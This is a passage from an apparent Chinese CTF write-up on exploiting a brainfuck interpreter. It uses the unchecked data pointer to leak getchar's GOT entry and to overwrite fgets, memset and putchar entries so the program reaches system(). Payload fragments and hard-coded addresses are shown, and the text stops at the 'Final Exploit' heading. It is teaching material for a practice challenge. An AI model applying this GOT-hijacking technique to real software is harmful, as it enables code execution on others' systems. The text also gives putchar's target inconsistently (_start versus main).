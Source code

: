 根据题目所述信息，这是一个[`brainfuck`语言](https://zh.wikipedia.org/wiki/Brainfuck)的解释器。

由于`brainfuck`语言本身十分简单，因此本题中的核心处理逻辑就是`brainfuck`语言本身的处理逻辑。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-12-120216.png)

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

我们分析发现，此程序本身并没有可利用的漏洞，那么我们就可以利用`brainfuck`语言本身的特性来完成利用，因为题目没有对我们可操作的指针`p`做任何限制，也就是说，我们可以直接利用`brainfuck`语言本身来进行任意地址读写，那么我们的思路就很明显了，利用指针移动将`p`移动到`got`表，劫持`got`表内容即可。

我们决定将`putchar[@got](https://github.com/got)`改为`_start`，将`memset[@got](https://github.com/got)`改为`gets[@got](https://github.com/got)`，将`fgets[@got](https://github.com/got)`改为`system[@got](https://github.com/got)`。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

首先，以下信息是我们已知的：

```
getchar@got位于 ： 0x0804A00C
fgets@got位于   ： 0x0804A010
memset@got位于  ： 0x0804A02C
putchar@got位于 ： 0x0804A030
p 指针地址       ： 0x0804A080
```

接下来我们开始构造`payload`:
<li>首先执行一次`getchar`函数。
<pre><code class="lang-python hljs">payload  = ','
</code></pre>
</li>
<li>将指针`p`用`&lt;`操作符移动到`getchar[@got](https://github.com/got)`。
<pre><code class="lang-python hljs">payload += '&lt;' * 0x70
</code></pre>
</li>
<li>然后逐位输出`getchar[@got](https://github.com/got)`的值。
<pre><code class="lang-python hljs">payload += '.&gt;.&gt;.&gt;.&gt;'
</code></pre>
</li>
<li>然后继续篡改`fgets[@got](https://github.com/got)`为`system[@got](https://github.com/got)`。
<pre><code class="lang-python hljs">payload += ',&gt;,&gt;,&gt;,&gt;'
</code></pre>
</li>
<li>移动指针到`memset[@got](https://github.com/got)`。
<pre><code class="lang-python hljs">payload += '&gt;' * 0x18
</code></pre>
</li>
<li>篡改`memset[@got](https://github.com/got)`为`gets[@got](https://github.com/got)`。
<pre><code class="lang-python hljs">payload += ',&gt;,&gt;,&gt;,&gt;'
</code></pre>
</li>
<li>继续篡改`putchar[@got](https://github.com/got)`为`main`。
<pre><code class="lang-python hljs">payload += ',&gt;,&gt;,&gt;,&gt;'
</code></pre>
</li>
<li>触发`putchar`函数。
<pre><code class="lang-pytho">payload += '.'
</code></pre>
</li>
### <a class="reference-link" name="FInal%20Exploit"></a>FInal Exploit